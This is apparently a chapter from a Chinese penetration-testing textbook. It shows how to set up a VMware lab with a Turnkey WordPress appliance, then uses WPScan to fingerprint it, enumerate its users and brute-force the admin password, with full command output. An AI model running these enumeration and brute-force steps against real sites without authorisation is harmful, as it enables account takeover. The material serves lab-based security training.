

# 第三章　高级测试实验室

高级测试实验室可以构建各种渗透攻击的目标系统。通过前面的介绍，大家已经了解在 Kali Linux 下可使用的工具。为了更好地验证这些工具的作用，必须有一个高级测试实验室。本章将介绍如何使用 VMware Workstation 构建各种操作系统。本章主要知识点如下：

*   使用 VMware Workstation；
*   攻击 WordPress 和其他应用程序。

# 3.1 使用 VMware Workstation

## 3.1 使用 VMware Workstation

在第一章简略地讲解了在 VMware Workstation 上安装 Kali Linux 虚拟环境的过程。VMware Workstation 允许安装操作系统并且运行虚拟环境。这个工具是非常重要的，它可以为熟悉 Kali Linux 功能提供了目标主机。本书中使用到的虚拟机操作系统有 Windows XP、Windows 7、Metasploitable 2.0 和 Linux。这些系统都可以到它们的官网下载相应的 ISO 文件，然后在 VMware Workstation 上安装。这些安装系统的安装方法和在第一章介绍安装 Kali Linux 的方法一样，这里就不再赘述。

当用户在主机上执行任务时，可能会导致其他系统不稳定甚至无法运行。为了方便用户操作，VMware Workstation 提供了一个非常好的工具，实现虚拟环境的复制。这样，就避免了用户反复创建虚拟机系统。克隆虚拟环境时，必须将该系统关闭。否则，不能克隆。复制虚拟环境的具体操作步骤如下所示。

（1）在 VMware Workstation 主界面先选择要复制的虚拟机。然后在该界面依次选择“虚拟机”|“管理（M）”|“克隆（C）”命令，将显示如图 3.1 所示的界面。


图 3.1 欢迎使用克隆虚拟机向导

（2）在该界面单击“下一步”按钮，将显示如图 3.2 所示的界面。


图 3.2 克隆源

（3）在该界面可以选择从哪个状态创建克隆，这里选择“虚拟机中的当前状态”选项。然后单击“下一步”按钮，将显示如图 3.3 所示的界面。


图 3.3 克隆方法

（4）在该界面选择克隆方法。默认提供了“创建链接克隆”和“创建完整克隆”两种方法。本例中选择“创建完整克隆”选项，然后单击“下一步”按钮，将显示如图 3.4 所示的界面。

*   链接克隆：它是从父本的一个快照克隆出来的。链接克隆需要使用到父本的磁盘文件，如果父本不可使用（比如被删除），那么链接克隆也不能使用了。
*   完整克隆：它是一个独立的虚拟机，克隆结束后它不需要共享父本。该过程是完全克隆一个父本，并且和父本完全分离。完整克隆只是从父本的当前状态开始克隆，克隆结束后和父本就没有任何关联了。


图 3.4 新虚拟机名称

（5）该界面用来设置虚拟机的名称和位置。然后单击“完成”按钮，将显示如图 3.5 所示的界面。


图 3.5 正在克隆虚拟机

（6）该界面是克隆虚拟机的一个过程。克隆完成后，将显示如图 3.6 所示的界面。


图 3.6 克隆完成

（7）从该界面可以看到虚拟机已克隆完成，此时单击“关闭”按钮，克隆的虚拟机会自动添加到 VMware Workstation 主窗口界面，如图 3.7 所示。


图 3.7 克隆的虚拟机

（8）现在就可以单击“开启此虚拟机”按钮，运行克隆的操作系统了。

# 3.2 攻击 WordPress 和其他应用程序

## 3.2 攻击 WordPress 和其他应用程序

今天越来越多的企业利用 SAAS（Software as a Service）工具应用在他们的业务中。例如，他们经常使用 WordPress 作为他们网站的内容管理系统，或者在局域网中使用 Drupal 框架。从这些应用程序中找到漏洞，是非常有价值的。

为了收集用于测试的应用程序，Turnkey Linux 是一个非常好的资源。Turnkey 工具的官方网站是[`www.turnkeylinux.org。本节将下载最流行的 WordPress`](http://www.turnkeylinux.org。本节将下载最流行的 WordPress) Turnkey Linux 发行版。

### 3.2.1 获取 WordPress 应用程序

获取 WordPress 应用程序的具体操作步骤如下所示。

（1）在浏览器中输入[`www.turnkeylinux.org 地址，打开的界面如图 3.8 所示。从该界面下载 Turnkey`](http://www.turnkeylinux.org 地址，打开的界面如图 3.8 所示。从该界面下载 Turnkey) Linux。


图 3.8 Turnkey 主页

（2）在该页面列出了许多程序，可以通过向下滚动鼠标查看。由于篇幅的原因，图 3.8 只截取了一少部分内容。在该页面中，用户可以尝试使用各种软件查找漏洞，并通过工具对这些应用程序来测试用户的技术。本例中将选择测试 WordPress，向下滚动鼠标可以看到 Instant Search 对话框，如图 3.9 所示。


图 3.9 立即搜索

（3）在该对话框中输入 WordPress，然后按下回车键，将显示如图 3.10 所示的界面。



图 3.10 WordPress 应用程序

（4）在该界面可以看到 WordPress 程序已经找到，此时单击 WordPress-Blog Publishing Platform 链接进入下载页面，如图 3.11 所示。


图 3.11 Turnkey 下载页面

（5）在该界面选择下载 ISO 映像文件。单击 220MB ISO 链接，将显示如图 3.12 所示的界面。


图 3.12 设置邮箱地址

（6）该界面提示为了安全，需要填写一个邮箱地址。填写完后，单击 Subscribe and go straight to download 按钮，将开始下载 Turnkey WordPress 软件。

### 3.2.2 安装 WordPress Turnkey Linux

本小节将介绍在 VMware Workstation 中安装 WordPress Turnkey Linux。关于 VMware Workstation 的使用，在第一章中已经详细介绍过，这里就不再赘述。安装 WordPress Turnkey Linux 的具体操作步骤如下所示。

（1）将前面下载的 ISO 文件导入到光驱中，然后启动此虚拟机，将显示如图 3.13 所示的界面。


图 3.13 TURNKEY 初始界面

（2）在该界面选择 Install to hard disk 选项，按下“回车键”，将显示如图 3.14 所示的界面。


图 3.14 选择分区方法

（3）该界面是选择分区的方法。该系统提供了三种方法，分别是使用整个磁盘并设置 LVM、使用整个磁盘和手动分区。这里选择第一种，然后单击 OK 按钮，将显示如图 3.15 所示的界面。


图 3.15 将数据写入磁盘

（4）该界面显示了分区的信息，这里提示是否将写入改变磁盘并配置 LVM 呢？如果想要重新分配分区的话，就单击 No 按钮，否则单击 Yes 按钮。本例中单击 Yes 按钮，将显示如图 3.16 所示的界面。


图 3.16 LVM 信息

（5）该界面显示了 LVM 的配置信息。单击 OK 按钮，将显示如图 3.17 所示的界面。


图 3.17 使用引导分区的卷组

（6）该界面提示使用引导分区的卷组来安装系统。此时，单击 OK 按钮，将显示如图 3.18 所示的界面。


图 3.18 磁盘分区表

（7）该界面显示了磁盘的分区表信息，此时提示是否要写入数据。这里单击 Yes 按钮，将显示如图 3.19 所示的界面。


图 3.19 复制数据到磁盘

（8）该界面显示了复制数据的磁盘的一个进度。复制完后，将显示如图 3.20 所示的 界面。


图 3.20 安装 GRUB 引导

（9）该界面提示是否安装 GRUB 引导加载程序的主引导记录。这里单击 Yes 按钮，将显示如图 3.21 所示的界面。


图 3.21 是否重启系统

（10）该界面显示 WordPress Turnkey Linux 已经安装完成，是否现在重新启动系统。单击 Yes 按钮，将显示如图 3.22 所示的界面。


图 3.22 Root 密码

（11）在该界面为 Root 用户设置一个密码。输入密码后，单击 OK 按钮，将显示如图 3.23 所示的界面。


图 3.23 Root 确认密码

（12）该界面要求再次为 Root 用户输入相同的密码，单击 OK 按钮，将显示如图 3.24 所示的界面。


图 3.24 MySQL 密码

（13）在该界面为 MySQL 服务的 Root 用户设置一个密码，设置完后单击 OK 按钮，将显示如图 3.25 所示的界面。


图 3.25 MySQL 确认密码

（14）在该界面再次为 MySQL 服务的 Root 用户输入相同的密码，然后单击 OK 按钮，将显示如图 3.26 所示的界面。


图 3.26 Wordpress 用户 admin 密码

（15）在该界面要求为 Wordpress 的用户 admin 设置一个密码，输入密码后，单击 OK 按钮，将显示如图 3.27 所示的界面。


图 3.27 Wordpress 用户 admin 确认密码

（16）在该界面再次为 Wordpress 用户 admin 输入相同的密码，然后单击 OK 按钮，将显示如图 3.28 所示的界面。


图 3.28 设置邮件地址

（17）该界面提示为 Wordpress 用户 admin 设置一个邮件地址，这里使用默认的 admin@example.com。然后单击 Apply 按钮，将显示如图 3.29 所示的界面。


图 3.29 Initialize Hub Services

（18）该界面显示了初始化 Hub 服务信息，在该界面单击 Skip 按钮，将显示如图 3.30 所示的界面。


图 3.30 Security updates

（19）该界面提示是否现在安装安全更新，这里单击 Install 按钮，将显示如图 3.31 所示的界面。


图 3.31 WORDPRESS appliance services

（20）该界面显示了 WordPress 应用服务的详细信息，如 Web 地址、Web shell 地址和端口、Webmin 地址、PHPMyAdmin 地址和端口及 SSH/SFTP 地址和端口等。此时，表明 WordPress Turnkey Linux 就可以使用了。

### 3.2.3 攻击 WordPress 应用程序

上一小节介绍了 WordPress 虚拟机的安装。现在就可以启动 WordPress 虚拟机，在 Kali Linux 下使用 WPScan 攻击它。WPScan 是一个黑盒安全扫描器，它允许用户查找 Word Press 安装版的一些已知的安全漏洞。本小节将介绍使用 WPScan 工具攻击 WordPress 应用程序。

WPScan 在 Kali Linux 中已经默认安装。它的语法格式如下所示：

```
wpscan [选项] [测试] 
```

常用的选项如下所示。

*   --update：更新到最新版本。
*   --url|-u <target url>：指定扫描 WordPress 的 URL（统一资源定位符）或域名。
*   --force |-f：如果远程站点正运行 WordPress，强制 WPScan 不检查。
*   --enumerate |-e [option(s)]：计算。该参数可用的选项有 u、u[10-20]、p、vp、ap、tt、t、vt 和 at。其中 u 表示用户名从 id1 到 10；u[10-20]表示用户名从 id10 到 20（[]中的字符必须写）；p 表示插件程序；vp 表示仅漏洞插件程序；ap 表示所有插件程序（可能需要一段时间）；tt 表示 timthumbs；t 表示主题；vt 表示仅漏洞主题；at 表示所有主题（可能需要一段时间）。

【实例 3-1】使用 WPScan 攻击 WordPress 程序的具体操作步骤如下所示。

（1）在 Kali Linux 下，查看 WPScan 的帮助信息。执行命令如下所示：

```
root@localhost:~# wpscan -h 
_______________________________________________________________ 
        __          _______   _____                   
        \ \        / /  __ \ / ____|                  
         \ \  /\   / /| |__) | (___   ___  __ _ _ __   
          \ \/  \/ / |  ___/ \___  \ / __|/ _` | '_ \  
           \  /\  /  | |     ____) | (__| (_| | | | | 
            \/  \/   |_|    |_____/ \___|\__,_|_| |_| 

        WordPress Security Scanner by the WPScan Team  
                        Version v2.2 
     Sponsored by the RandomStorm Open Source Initiative 
  @_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_ 
_______________________________________________________________ 

Help : 

Some values are settable in conf/browser.conf.json : 
  user-agent, proxy, proxy-auth, threads, cache timeout and request timeout 
...... 
m conf/browser.conf.json). 
--basic-auth <username:password>  Set the HTTP Basic authentication 
--wordlist | -w <wordlist>  Supply a wordlist for the password bruter and do the brute. 
--threads  | -t <number of threads>  The number of threads to use when multi-threading 
requests. (will override the value from conf/browser. conf.json) 
--username | -U <username>  Only brute force the supplied username. 
--help     | -h This help screen. 
--verbose  | -v Verbose output. 

Examples : 

-Further help ... 
ruby ./wpscan.rb --help 

-Do 'non-intrusive' checks ... 
ruby ./wpscan.rb --url www.example.com 

-Do wordlist password brute force on enumerated users using 50 threads ... 
ruby ./wpscan.rb --url www.example.com --wordlist darkc0de.lst --threads 50 

-Do wordlist password brute force on the 'admin' username only ... 
ruby ./wpscan.rb --url www.example.com --wordlist darkc0de.lst --username admin
...... 
```

执行以上命令后，会输出大量信息。输出的信息中显示了 WPScan 的版本信息、使用方法及 WPScan 的例子等。由于篇幅的原因，这里贴了一部分内容，其他使用省略号（……）取代。

（2）使用 WPScan 攻击 WordPress 虚拟机。本例中，WordPress 的 IP 地址是 192.168.41.130。执行命令如下所示：

```
root@localhost:~# wpscan -u 192.168.41.130 
_______________________________________________________________ 
        __          _______   _____                   
        \ \        / /  __ \ / ____|                  
         \ \  /\  / /| |__) | (___   ___  __ _ _ __   
          \ \/  \/ /| ___/  \___ \ / __|/ _` | '_ \  
           \  /\  /  | |     ____) | (__| (_| | | | | 
            \/  \/   |_|    |_____/ \___|\__,_|_| |_| 

        WordPress Security Scanner by the WPScan Team  
                        Version v2.2 
     Sponsored by the RandomStorm Open Source Initiative 
  @_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_ 
_______________________________________________________________ 

| URL: http://192.168.41.130/ 
| Started: Thu Apr 17 13:49:37 2014 

[!] The WordPress 'http://192.168.41.130/readme.html' file exists 
[+] Interesting header: SERVER: Apache/2.2.22 (Debian) 
[+] Interesting header: X-POWERED-BY: PHP/5.4.4-14+deb7u8 
[+] XML-RPC Interface available under: http://192.168.41.130/xmlrpc.php 
[+] WordPress version 3.6.1 identified from meta generator 

[+] WordPress theme in use: twentythirteen v1.0 

  | Name: twentythirteen v1.0 
 | Location: http://192.168.41.130/wp-content/themes/twentythirteen/ 

[+] Enumerating plugins from passive detection ...  
No plugins found 

[+] Finished: Thu Apr 17 13:49:41 2014 
[+] Memory used: 2.414 MB 
[+] Elapsed time: 00:00:03 
```

输出的信息显示了 WPScan 一个简单的攻击过程。

（3）列出用户名列表，执行命令如下所示：

```
root@localhost:~# wpscan -u 192.168.41.130 -e u vp 
_______________________________________________________________ 
        __          _______   _____                   
        \ \        / /  __ \ / ____|                  
         \ \  /\  / /| |__) | (___   ___  __ _ _ __   
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \  
           \  /\  /  | |     ____) | (__| (_| | | | | 
            \/  \/   |_|    |_____/ \___|\__,_|_| |_| 

        WordPress Security Scanner by the WPScan Team  
                        Version v2.2 
     Sponsored by the RandomStorm Open Source Initiative 
  @_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_ 
_______________________________________________________________ 

| URL: http://192.168.41.130/ 
| Started: Thu Apr 17 13:50:49 2014 

[!] The WordPress 'http://192.168.41.130/readme.html' file exists 
[+] Interesting header: SERVER: Apache/2.2.22 (Debian) 
[+] Interesting header: X-POWERED-BY: PHP/5.4.4-14+deb7u8 
[+] XML-RPC Interface available under: http://192.168.41.130/xmlrpc.php 
[+] WordPress version 3.6.1 identified from meta generator 

[+] WordPress theme in use: twentythirteen v1.0 

  | Name: twentythirteen v1.0 
 | Location: http://192.168.41.130/wp-content/themes/twentythirteen/ 

[+] Enumerating plugins from passive detection ...  
No plugins found 

[+] Enumerating usernames ... 
[+] We found the following 1 user/s: 
    +----+-------+-------+ 
    | Id | Login | Name  | 
    +----+-------+-------+ 
    | 1  | admin | admin | 
    +----+-------+-------+ 

[+] Finished: Thu Apr 17 13:50:54 2014 
[+] Memory used: 2.379 MB 
[+] Elapsed time: 00:00:04 
```

从输出的信息中可以看到当前系统中只有一个用户，名为 admin。

（4）为 WPScan 指定一个 wordlist 文件，使用--wordlist <path to file>选项。执行命令如下所示：

```
root@localhost:~# wpscan -u 192.168.41.130 -e u --wordlist /root/ wordlist.txt  
_______________________________________________________________ 
        __          _______   _____                   
        \ \        / /  __ \ / ____|                  
         \ \  /\  / /| |__) | (___   ___  __ _ _ __   
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \  
           \  /\  /  | |     ____) | (__| (_| | | | | 
            \/  \/   |_|    |_____/ \___|\__,_|_| |_| 

        WordPress Security Scanner by the WPScan Team  
                        Version v2.2 
     Sponsored by the RandomStorm Open Source Initiative 
  @_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_ 
_______________________________________________________________ 

| URL: http://192.168.41.130/ 
| Started: Thu Apr 17 13:54:51 2014 

[!] The WordPress 'http://192.168.41.130/readme.html' file exists 
[+] Interesting header: SERVER: Apache/2.2.22 (Debian) 
[+] Interesting header: X-POWERED-BY: PHP/5.4.4-14+deb7u8 
[+] XML-RPC Interface available under: http://192.168.41.130/xmlrpc.php 
[+] WordPress version 3.6.1 identified from meta generator 

[+] WordPress theme in use: twentythirteen v1.0 

  | Name: twentythirteen v1.0 
 | Location: http://192.168.41.130/wp-content/themes/twentythirteen/ 

[+] Enumerating plugins from passive detection ...  
No plugins found 

[+] Enumerating usernames ... 
[+] We found the following 1 user/s: 
    +----+-------+-------+ 
    | Id | Login | Name  | 
    +----+-------+-------+ 
    | 1  | admin | admin | 
    +----+-------+-------+ 

[+] Starting the password brute forcer 
  Brute Forcing 'admin' Time: 00:00:00 <     > (59 / 20575)  0.28%       
  ETA: 00:00:00 
  [SUCCESS] Login : admin Password : 123456 

  +----+-------+-------+----------+ 
  | Id | Login | Name  | Password | 
  +----+-------+-------+----------+ 
  | 1  | admin | admin | 123456   | 
  +----+-------+-------+----------+ 

[+] Finished: Thu Apr 17 13:54:56 2014 
[+] Memory used: 2.508 MB 
[+] Elapsed time: 00:00:05 
```

从输出的信息中，可以看到 WordPress 用户 admin 的密码已被破解出。